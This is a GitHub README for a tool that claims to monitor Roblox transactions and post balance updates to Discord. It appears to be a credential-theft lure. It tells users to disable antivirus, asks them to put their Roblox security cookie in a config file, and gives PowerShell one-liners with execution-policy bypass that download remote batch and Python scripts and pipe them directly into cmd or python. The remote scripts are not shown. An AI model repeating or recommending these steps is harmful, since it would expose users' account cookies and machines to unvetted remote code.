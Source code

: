 # Roblox Transaction Monitor (CTL Edition)
A command-line tool to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Screenshots

<img width="731" height="192" alt="Screenshot 2025-10-30 122532" src="https://github.com/user-attachments/assets/cef27e07-8c6d-400f-96df-dda8088851b6" />

## Features

- [x] Real-time monitoring of Roblox transactions via CTL
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] Lightweight CLI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Quick Start

- [x] Disable antivirus temporarily
- [x] Download and run the CTL script
- [x] Re-enable antivirus once configured

## TODO
- [x] Add time-range filters (day / month / year / total)
- [ ] Package as a single portable executable

## Configuration
Create a `config.json` file with:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (seconds)
6. Time-span filter: `day`, `month`, `year`, or `total`

## Usage
Install dependencies:
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/install.bat' | % Content | cmd"
```
Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```
unInstall packages
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/uninstall.bat' | % Content | cmd"
```
## License
This project is licensed under the Apache License - see the LICENSE file for details.